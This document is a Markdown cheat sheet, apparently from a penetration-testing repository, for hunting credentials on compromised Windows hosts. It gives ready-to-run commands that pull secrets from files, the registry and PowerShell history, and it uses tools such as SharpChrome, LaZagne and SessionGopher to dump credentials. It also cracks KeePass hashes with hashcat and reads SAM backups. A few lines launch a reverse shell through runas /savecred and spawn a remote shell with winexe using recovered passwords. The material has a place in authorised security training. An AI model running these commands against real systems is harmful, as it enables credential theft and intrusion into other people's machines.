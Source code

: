# ✅ Windows Credential Hunting (Cheat Sheet)


- [ ] kdbx search
---

## 🎯 Quick Wins
- [ ] **Find Plaintext Credentials in Config Files** → *.config, *.xml, *.ini, *.txt
- [ ] **Check PowerShell History** → ConsoleHost_history.txt
- [ ] **Look for Unattend Files** → unattend.xml, sysprep.inf
- [ ] **Search Chrome Dictionary Files** → Custom Dictionary.txt
- [ ] **Grab Stored PowerShell Credentials** → Export-Clixml files
- [ ] **Inspect Sticky Notes DB** → plum.sqlite
- [ ] **Enumerate Saved Creds with cmdkey** → /list
- [ ] **Dump Browser Passwords** → SharpChrome
- [ ] **Run LaZagne for Multi-App Credential Dump**
- [ ] **Find KeePass DB Files** → *.kdbx
- [ ] **Enumerate AutoLogon in Registry**
- [ ] **Recover Wi-Fi Passwords** → netsh wlan show profile key=clear
- [ ] check for `c:\\programdata` , `C:\Users\All USers` , `C:\Program Files` for sensitive files , also check for hidden files and other directories

---

##  ✅ Hidden in Plain View

```c
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

```


## ✅ File & Config Searches

```c
.\winPEASany.exe quiet cmd searchfast filesinfo
```

```powershell
# Search for credentials in common config/text files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Recursive search for "password"
findstr /si password *.*

# PowerShell alternative
Select-String -Path C:\Users\*\Documents\*.txt -Pattern "password"

# Search for common credential-related file names
dir /S /B *pass*.txt == *pass*.xml == *cred* == *vnc* == *.config*
where /R C:\ *.config

dir /s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```
## ✅ IIS Config Files (Example)
```c
# Check IIS default web.config
C:\inetpub\wwwroot\web.config
```
## ✅ Chrome Dictionary Files
```c
# Look for saved passwords in Chrome's Custom Dictionary
gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String "password"
```
## ✅ Unattended Installation Files
```c
# Common location
C:\Windows\Panther\unattend.xml
# Look for <Password> tags in XML
```
## ✅ PowerShell History
```c
# Default location
C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate all users' history
foreach($user in ((ls C:\users).fullname)){
  cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
}
```
## ✅ PowerShell Stored Credentials
```c
# Load and decrypt saved credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'
$credential.GetNetworkCredential().Username
$credential.GetNetworkCredential().Password
```
## ✅ Sticky Notes DB
```c
# Location
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

# Query notes for secrets
Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note"
```
## ✅ Saved Credentials (cmdkey)

```c
# 1.Use winPEAS to check for saved credentials:
> .\winPEASany.exe quiet cmd windowscreds

# 2.It appears that saved credentials for the admin user exist.

# 3.We can verify this manually using the following command:
> cmdkey /list

# 4.If the saved credentials aren’t present, run the following script to refresh the credential:
> C:\PrivEsc\savecred.bat

# 5.We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
> runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

```c
cmdkey /list
# Example:
# Target: TERMSRV/SQL01
# User: inlanefreight\bob
```
## ✅ Run as Saved Credential
```c
runas /savecred /user:DOMAIN\username "COMMAND"
```
## ✅ Browser Credentials
```c
# Use SharpChrome to dump Chrome saved logins
SharpChrome.exe logins /unprotect
```
## ✅ KeePass Hash Extraction
```c
# Convert KeePass DB to hash
keepass2john.py file.kdbx > hash.txt

# Crack with hashcat
hashcat -m 13400 hash.txt rockyou.txt
```
## ✅ LaZagne – Multi-App Credential Dump
```c
lazagne.exe all
# Dumps creds from browsers, chat apps, RDP, WinSCP, etc.
```
## ✅ SessionGopher – Saved RDP/SSH Credentials
```c
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target localhost
```

## ✅ Searching the Registry for Passwords

```c
# The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s
> reg query HKCU /f password /t REG_SZ /s
# This usually generates a lot of results, so often it is more fruitful to look in known locations
```

```c
# 1.Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo
# (the final checks will take a long time to complete)

# 2.The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).

# 3.We can verify these manually:
> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# 4.On Kali, we can use the winexe command to spawn a shell using these credentials:

# winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

## ✅ Registry – Windows AutoLogon
```c
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
# Look for:
# AutoAdminLogon, DefaultUserName, DefaultPassword
```
## ✅ Registry – PuTTY Sessions
```c
reg query "HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>"
# Look for ProxyUsername, ProxyPassword
```
## ✅ Wi-Fi Passwords
```c
netsh wlan show profile
netsh wlan show profile <SSID> key=clear
```
## ✅ Interesting Files to Check
```c
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
C:\ProgramData\Configs\*
%USERPROFILE%\ntuser.dat
```
